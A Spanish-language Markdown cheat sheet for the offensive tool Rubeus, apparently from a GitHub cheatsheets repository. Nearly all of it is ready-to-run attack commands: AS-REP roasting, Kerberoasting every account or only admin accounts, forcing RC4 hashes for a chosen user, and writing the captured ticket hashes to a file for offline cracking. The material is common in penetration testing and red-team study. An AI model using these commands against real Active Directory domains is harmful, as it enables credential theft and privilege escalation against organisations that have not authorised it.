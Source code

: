# Rubeus Cheat Sheet

#### ASREPRoast Attack
```console
Rubeus.exe asreproast /nowrap
```

#### Saber si hay cuentas Kerberoastables
```console
Rubeus.exe kerberoast /stats
```

#### Kerberoasting Attack a todas las cuentas y guardar los hashes en un archivo
```console
Rubeus.exe kerberoast /nowrap /outfile:hash
```

#### Kerberoasting Attack, obtener los hashes de todas las cuentas admins
```console
Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```

#### Kerberoasting Attack, para un usuario en especifico que tenga el SPN configurado
```console
Rubeus.exe kerberoast /user:<USER-NAME> /nowrap
```

#### Kerberoasting Attack, para un usuario en especifico que tenga el SPN configurado pero que el modo Hash que nos de sea siempre RC4
```console
Rubeus.exe kerberoast /tgtdeleg /user:<USER-NAME> /nowrap
```

#### Kerberoasting Attack especificando usuario y contraseña de un usuario
```console
Rubeus.exe kerberoast /creduser:<DOMAIN>\<USER> /credpassword:<PASSWORD> /outfile:hash
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)
